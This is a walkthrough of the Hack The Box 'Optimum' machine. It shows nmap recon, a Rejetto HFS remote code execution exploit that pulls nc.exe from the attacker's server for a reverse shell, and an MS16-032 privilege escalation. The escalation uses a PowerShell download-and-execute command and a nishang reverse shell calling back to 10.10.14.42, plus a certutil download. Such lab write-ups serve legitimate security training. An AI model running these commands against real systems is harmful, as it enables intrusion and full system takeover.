 # Optimum [HTB]()
![optimum-01]()


## Recon

I start by adding the target to `/etc/hosts` :

![hosts-02]()

From here i use `nmap` to scan the target:

```bash
nmap -sC -sV -A -p- optimum.htb -oN nmap.result
```

![nmap-res-03]()


We have a single port open, appears to be running an HTTP file server. Lets take a look at it.


### HFS Port 80


Lets open the site through our browsers at `http://optimum.htb`

![site-04]()


No files are hosted on the site at the moment. However, two things jump to my mind, the login link, and 
the version at the buttom. We could try to break the authintication logic, but if we hover over the 
version link we can see the file server is running `Rejetto`, which can also be seen from the page source:

![rejjeto-05]()

If we search Goolge for exploits we can find an RCE exploit from [ExploitDB](https://www.exploit-db.com/exploits/39161). The script looks like Python 2, it says we need to have a web server hosting `nc.exe`, 
and we need to setup a listener manually. Lets give it a shot. 

After i download the file, i update my local IP and port information:

![exploit-06]()

Now i grab a copy of `/usr/share/windows-resources/binaries/nc.exe` to my current working directory 
and start a Python web server with:

```bash
python3 -m http.server 80
```

I then start my listener with:

```bash
rlwrap nc -lnvp 443
```

Now we execute the exploit with:

```
python2 rejetto_rce.py optimum.htb 80
```

![shell-07]()

After a couple of executions i get a shell. First run it grabbed `nc.exe` from my server, second time 
it connected with the shell. 


## Privilege Escalation


If we try to catch quick wins by checking privs with:

```cmd
whoami /priv
```

We dont get anything useful. Or if we look for saved credentials with:

```cmd
cmdkey /list
```

Again, nothing there. 


Having a look at the user's home directory and `AppData` folder, nothing interesting comes up. 
No unusual software. No interesting config files. I also checked our user's group membership, nothing useful. 

If we try to open a PowerShell prompt with `powershell -ep bypass`, the shell connection freezes until 
we terminate it and re-execute the exploit. 

If we try to hunt for stored password in the registry with:

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
```

Nothing comes up. 


So i decided to generate `systeminfo` output and run [windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) againts it. 


![sysinfo-08]()


We are up againts an X64 Windows 2012 R2 server. The exploit suggester returned quite a lot of potential 
kernel exploits. I tried a few, but they didnt work for me. 


So I decided to enumerate the system deeper, i tried finding lenient service permission with [accesschk64](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk64.exe):


```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```


Nothing came up, so i tried to look for weak regitry ACL with:

```cmd
accesschk.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services
```

Nothing interesting came from that. I also tried running `WinPeas` but this froze the shell connection, 
and it appears the process gets hung and never terminitates. 

I tried looking at running services with:

```cmd
tasklist /SVC
```

Again, no leads came from that. I also tried looking at startup applications with:

```cmd
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
```

There were no startup tasks running as SYSTEM. 


At this point i decided to take a step back. I didnt find any third party software on the target, 
no misconfiguration of services, or file permissions. No saved credentials, no weak user privileges, 
no system tasks, no system services, Powershell freezes the connection, WinPEAS hangs indefinitely, 
what to do? 

Then i thought, this is a 2012 R2 server, the escalation must be a kernel exploit. So i went back to 
the `windows-exploit-suggester` output from before. I tried different exploits, and once again, nothing 
worked for me. i spent quite some time here.  

Primarly, i was interested in the `ms16-135` exploit, which is supposed to work for most x64-bit Windows
machines, which our target is. But instad, the exploit terminated saying, our machine's architecture was 32-bit. 

There was another exploit i tried a few times, `ms16-032`:

![exploit-suggester-09]()

Previously, i tried the `metasploit` version, this failed so i decided to move on. However this time, 
i found a PowerShell version of the exploit [here](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1). 


If we take a look at the source code, we can see we need to invoke the function and specify a command to run as SYSTEM:

![exploit-10]()

We can host nishang's reverse powershell script on a python server, setup a listener and run the exploit. 

First step, download the exploit to you kali, and invoke the funciton at the buttom:

![invoke-11]()

```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.42/rshell.ps1')"
```

Next, download [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script to your kali.

Add the following line at the end of the script:

![nishang-12]()

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.42 -Port 9001
```

Now, from the target, download the exploit with:

```cmd
certutil -urlcache -f http://10.10.14.42/ms16-032.ps1 ms16-032.ps1
```

Setup the listener on you kali:

```bash
rlwrap -lnvp 9001
```

Then, use the 32-bit version of powershell to execute the exploit:

```cmd
C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe "C:\Users\kostas\Desktop\ms16-032.ps1"
```

This should give you a shell as the SYSTEM:

![root-13]()

